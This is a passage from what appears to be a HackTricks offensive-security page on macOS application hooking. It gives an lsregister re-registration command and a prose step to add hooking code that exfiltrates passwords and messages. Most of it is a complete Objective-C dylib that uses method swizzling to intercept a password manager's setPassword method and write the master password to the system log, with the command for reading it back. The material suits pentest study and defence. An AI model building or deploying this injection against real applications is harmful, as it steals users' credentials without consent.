 and then **re-register** the application:

```bash
/System/Library/Frameworks/CoreServices.framework/Frameworks/LaunchServices.framework/Support/lsregister -f /Applications/Application.app
```

Add in that library the hooking code to exfiltrate the information: Passwords, messages...

> [!CAUTION]
> Note that in newer versions of macOS if you **strip the signature** of the application binary and it was previously executed, macOS **won't be executing the application** anymore.

#### Library example

```objectivec
// gcc -dynamiclib -framework Foundation sniff.m -o sniff.dylib

// If you added env vars in the Info.plist don't forget to call lsregister as explained before

// Listen to the logs with something like:
// log stream --style syslog --predicate 'eventMessage CONTAINS[c] "Password"'

#include <Foundation/Foundation.h>
#import <objc/runtime.h>

// Here will be stored the real method (setPassword in this case) address
static IMP real_setPassword = NULL;

static BOOL custom_setPassword(id self, SEL _cmd, NSString* password, NSURL* keyFileURL)
{
    // Function that will log the password and call the original setPassword(pass, file_path) method
    NSLog(@"[+] Password is: %@", password);

    // After logging the password call the original method so nothing breaks.
    return ((BOOL (*)(id,SEL,NSString*, NSURL*))real_setPassword)(self, _cmd,  password, keyFileURL);
}

// Library constructor to execute
__attribute__((constructor))
static void customConstructor(int argc, const char **argv) {
    // Get the real method address to not lose it
    Class classMPDocument = NSClassFromString(@"MPDocument");
    Method real_Method = class_getInstanceMethod(classMPDocument, @selector(setPassword:keyFileURL:));

    // Make the original method setPassword call the fake implementation one
    IMP fake_IMP = (IMP)custom_setPassword;
    real_setPassword = method_setImplementation(real_Method, fake_IMP);
}
```

## References

- [https://nshipster.com/method-swizzling/](https://nshipster.com/method-swizzling/)

{{#include ../../../banners/hacktricks-training.md}}
